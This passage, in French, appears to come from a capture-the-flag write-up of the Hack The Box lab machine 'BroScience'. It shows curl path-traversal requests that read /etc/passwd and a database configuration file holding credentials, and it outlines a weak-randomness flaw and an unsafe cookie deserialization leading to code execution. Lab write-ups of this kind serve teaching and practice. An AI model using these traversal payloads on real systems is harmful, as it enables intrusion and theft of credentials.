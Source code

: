 ```
# découverte du compte utilisateur 'bill' disposant d'un shell sur le système 

curl -k https://broscience.htb/includes/img.php?path=%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc%252fpasswd HTTP/1.1

bill:x:1000:1000:bill,,,:/home/bill:/bin/bash
```

```
# découverte d'identifiants :
└─$ curl -k https://broscience.htb/includes/img.php?path=%252e%252e/includes/db_connect.php
<?php
$db_host = "localhost";
$db_port = "5432";
$db_name = "broscience";
$db_user = "dbuser";
$db_pass = "RangeOfMotion%777";
$db_salt = "NaCl";

```

# Découverte du code source de l'application

On énumère ensuite les quelques fichiers constituant le code source de l'application :

![BroScience-9](../../BroScience-9.png)

## Enumération des vulnérabilités

En analysant le code de l'application, nous découvrons rapidement  plusieures vulnérabilités :

- Vulnérabilité 1 : Mauvaise initialisation du générateur de nombres aléatoires responsables de la génération du code d'activation rendant possible la découverte du code d'activation
- Vulnérabilité 2 : Absence de protection concernant la désérialisation d'un cookie utilisateur rendant possible l'exécution de code arbitraire à distance.
La vulnérabilité 2 n'étant exploitable que dans la zone authentifiée du site, il faudra d'abord exploiter la vulnérabilité 1 pour obtenir une exécution de code arbitraire à distance.
